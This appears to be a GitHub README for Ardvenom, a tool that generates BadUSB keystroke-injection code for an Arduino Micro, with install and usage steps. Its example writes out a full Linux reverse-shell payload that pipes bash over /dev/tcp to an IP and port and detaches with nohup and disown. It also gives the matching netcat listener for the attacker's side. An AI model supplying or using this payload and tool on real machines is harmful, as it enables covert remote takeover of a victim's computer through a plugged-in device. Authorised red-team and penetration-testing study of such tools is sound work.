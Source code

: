 # Ardvenom

A tool that auto generate badUSB like code for Arduino Micro code.

## Installation
### Requirements
Debian
```bash
apt-get install arduino arduino-cli
```
Arch
```bash
pacman -S arduino arduino-cli
```
### Preparation
add user to uucp group
```
sudo usermod -a -G uucp USERNAME
```
enter group to skip reboot
```bash
newgrp uucp
```

## Usage

Plug your Arduino Micro using USB cable (make sure it's the only pluged Arduino).
![arduino](https://github.com/j4ckst0ne37/Ardvenom/blob/main/arduino.jpg?raw=true)

Run ardvenom.py
```bash
./ardvenom.py -o OS -l KEYBOARD_LAYOUT -c CMD
```
## Example

To make a simple reverse-shell for a Linux target.

```bash
./ardvenom.py -o linux -l qwerty -c "nohup bash -i >& /dev/tcp/IP/PORT 0>&1 > /dev/null & disown && exit"
```
In the other side
```bash
nc -vnlp PORT
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
